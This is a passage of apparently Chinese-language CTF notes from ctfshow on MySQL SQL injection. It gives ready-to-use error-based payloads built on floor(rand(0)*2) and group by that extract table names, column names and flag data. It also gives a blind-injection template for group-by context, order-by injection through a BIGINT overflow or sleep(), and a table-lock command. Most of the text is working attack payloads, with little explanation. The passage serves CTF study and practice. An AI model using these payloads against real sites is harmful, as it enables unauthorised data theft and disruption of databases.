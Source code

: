 ```sql
#获取表名
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database()  limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

#获取列名
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flags'  limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

#获取数据
1' union select 1,count(*),concat(0x3a,0x3a,(select (flag2) from ctfshow_flags  limit 0,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23
```

**6.**
uuid相关函数    8.0.x    `UUID_TO_BIN ` `BIN_TO_UUID`
BIGINT溢出    5.5.5及其以上版本

## group by注入

直接盲注

```sql
?u=if(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1)='{1}',username,2)".format(i,j)
```

## order by注入

```sqlite
?order=id and case when (database() like PAYLOAD) then 1 else 9223372036854775807%2B1 end

?order=if(表达式，1，sleep(1))
```

## 宽字节注入

https://blog.csdn.net/qq_45927819/article/details/123763888

## 其他

在  MySQL 中，存储过程和函数的信息存储在  information_schema  数据库下的  Routines  表中，可以通过查询该表的记录来查询存储过程和函数的信息，其基本的语法形式如下:

```sql
SELECT * FROM information_schema.Routines
```

**锁表**

```sql
FLUSH TABLES WITH READ LOCK
```
